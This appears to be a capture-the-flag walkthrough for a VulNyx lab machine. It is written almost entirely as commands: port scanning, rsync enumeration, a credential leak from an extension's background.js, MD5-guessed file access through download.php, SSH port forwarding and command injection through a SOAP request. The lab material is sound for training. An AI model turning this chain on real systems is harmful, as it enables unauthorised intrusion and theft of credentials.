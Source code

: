 ___

```bash
export IP=192.168.0.24
./nmap.sh
```

/etc/hosts --> bola.nyx

# 873 Rsync

https://github.com/VulNyx/Arsenal/tree/main/rsync-brute

```bash
./rsync-brute -t bola.nyx -p 873 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```bash
rsync -av --list-only rsync://192.168.0.24/extensions
```

```bash
rsync -avz rsync://bola.nyx/extensions/password_manager.zip .
```

```bash
cat background.js
username: "jackie0x17@nyx.com", password: "sbIJ0x9g{C3`"
```

# 80

```bash
gobuster dir -u http://bola.nyx/ -w /home/dani/Documents/lists/content.txt -t 200
```

http://bola.nyx/.well-known/openid-configuration

usernames
```
d4t4s3c
jackie0x17
ct0l4
```


```bash
echo -n "d4t4s3c"| md5sum
97035ded598faa2ce8ff63f7f9dd3b70
```

http://bola.nyx/download.php?file_name=97035ded598faa2ce8ff63f7f9dd3b70.pdf

admin:VulNyxtestinglogin123

# 22

```bash
ssh -L 9000:127.0.0.1:9000 d4t4s3c@bola.nyx
VulNyxtestinglogin123
```

# WSDL

```bash
curl -X POST http://localhost:9000 -H "Content-Type: text/xml; charset=utf-8" -H 
"SOAPAction: \"ExecuteCommand\"" -d '<?xml version="1.0" encoding="utf-8"?>  
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns="http://localhost/wsdl">  
  <soapenv:Header/>  
  <soapenv:Body>  
     <LoginRequest>  
        <cmd>whoami</cmd>  
     <LoginRequest>  
  </soapenv:Body>  
</soapenv:Envelope>
```












